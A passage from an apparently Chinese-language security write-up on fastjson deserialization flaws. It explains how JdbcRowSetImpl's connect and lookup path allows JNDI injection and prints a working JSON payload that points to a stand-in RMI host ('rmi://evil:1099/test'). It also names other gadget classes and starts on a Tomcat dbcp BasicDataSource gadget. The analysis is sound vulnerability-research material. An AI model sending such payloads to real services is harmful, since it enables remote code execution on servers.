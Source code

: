 ![image-20200407105258958](/images/talk-about-fastjson-deserialization-20200413/image-20200407105258958.png)

在connect函数里我们可以看到调用了lookup函数，其参数值由`getDataSourceName`来获取，该函数主要返回属性`dataSource`，根据fastjson的利用原理，我们只需要填充`dataSource`和`autoCommit`就可以触发这里的JNDI注入。

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://evil:1099/test","autoCommit":true}
```

还有很多其他的可以用来JNDI注入的对象，比如`org.hibernate.jmx.StatisticsService`的`setSessionFactoryJNDIName`函数，原理一样不再叙述。

### (3). Tomcat dbcp BasicDataSource

同1中的TemplateImpl，BasicDataSource也可以载入任意的对象来执行任意代码。先来讲一下他的原理

前面的基础知识里提到了我们可以调用符合条件的getters，在`BasicDataSource`存在一个`getConnection`函数，他主要调用`createConnectionFactory`

![image-20200411132559759](/images/talk-about-fastjson-deserialization-20200413/image-20200411132559759.png)
